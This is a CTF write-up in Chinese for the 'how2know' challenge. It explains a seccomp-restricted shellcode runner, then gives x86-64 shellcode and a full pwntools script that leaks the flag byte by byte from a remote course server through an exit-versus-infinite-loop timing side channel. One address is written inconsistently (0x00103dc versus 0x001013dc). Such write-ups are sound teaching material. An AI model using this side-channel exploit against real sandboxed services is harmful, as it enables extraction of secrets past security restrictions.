



# how2know
首先看題目給的程式碼:  
```c
#include <stdio.h>
#include <unistd.h>
#include <fcntl.h>
#include <seccomp.h>
#include <sys/mman.h>
#include <stdlib.h>

static char flag[0x30];

int main() {
    void *addr;
    int fd;
    scmp_filter_ctx ctx;

    addr = mmap(NULL, 0x1000, PROT_EXEC | PROT_READ | PROT_WRITE, MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);
    if ((unsigned long)addr == -1)
        perror("mmap"), exit(1);
    
    fd = open("/home/chal/flag", O_RDONLY);
    if (fd == -1)
        perror("open"), exit(1);
    read(fd, flag, 0x30);
    close(fd);

    write(1, "talk is cheap, show me the code\n", 33);
    read(0, addr, 0x1000);

    ctx = seccomp_init(SCMP_ACT_KILL);
    seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(exit), 0);
    seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(exit_group), 0);
    seccomp_load(ctx);
    seccomp_release(ctx);

    ((void(*)())addr)();

    return 0;
}
```

## Analysis
稍微簡單講解一下程式碼做了哪些事情:  
1. 首先會開一個檔案，位置在/home/chal/flag  
2. 關閉檔案  
3. 讀非常長的一個buffer  
4. 使用seccomp將除了exit與exit_group之外的syscall都鎖住，如果嘗試呼叫會被kill掉  
5. 執行剛剛給的shell code  

<br>
在大多syscall都被鎖住的情況下，我們沒辦法透過正常的方式取得flag，因此要使用一些不同的方法。  
既然題目給了這麼長的buffer，那我們就可以把一些比較複雜的程式碼放進去。  
這邊試試看把flag逐字元比較，如果字元是正確的，那就使用exit直接結束程式；  
如果字元是錯誤的，那就讓程式進入無窮迴圈。  
這樣我們就可以根據程式回應的行爲來做判斷。  

## Find the address of flag
現在要先找出flag的位置在哪裡，才可以逐字比較。  
使用ghidra反組譯，看看flag的位置在哪裡:  
  
在0x00104040。  
<br>

再看看執行shellcode的時候，rsp指向哪裡:  
  
在0x00103dc。  
<br>

因此我們在執行shellcode的時候，可以推算出flag的位置爲:  
`rsp - 0x00103dc + 0x00104040`  
有了這些，就可以來寫shellcode了。  

## Shell code
首先要先把要比較的flag的字元的位址找出來。  
使用下面的shellcode:  
```s
mov rbx, qword ptr[rsp]
sub rbx, <offset>           ; 0x001013dc - 0x00104040
mov rax, qword ptr [rbx]
cmp al, 0x46                ; cmp al, "F"
jne $ - 0x4                 ; inf loop
mov rax, 0x3c               ; syscall exit
xor rdi, rdi                ; exit code
syscall
```

裡面的 jne $ - 0x4，$是指當前的位址，因此跳躍回到0x4前的指令，就能造成無窮迴圈，讓程式當掉。  

## Solve
```py
import pwn
import time

pwn.context.arch = "amd64"

offset = 0x001013dc - 0x00104040

def pwn_char_by_char(ith, char_ascii):
    shellcode = pwn.asm(
        f"""
        mov rbx, qword ptr[rsp]
        sub rbx, {offset - ith}
        mov rax, qword ptr [rbx]
        cmp al, {hex(char_ascii)}
        jne $ - 0x4
        mov rax, 0x3c
        xor rdi, rdi
        syscall
        """
    )

    r = pwn.remote("edu-ctf.zoolab.org", 10002)
    r.recvuntil(b"talk is cheap, show me the code")
    r.send(shellcode)
    
    t1 = time.time()
    try:
        r.recvall(timeout=1)
    except Exception:
        pass
    
    # if elapsed time smaller than 0.5: correct
    return time.time() - t1 < 0.5

flag = ""
for i in range(0, 0x30):
    print(f"Guessing {i} th char")
    # printable ascii
    for j in range(0x20, 0x7f):
        if pwn_char_by_char(i, j):
            flag += chr(j)
            print("hit", chr(j))
            break

print(flag)
```

程式執行結果(可能要跑一些時間):  
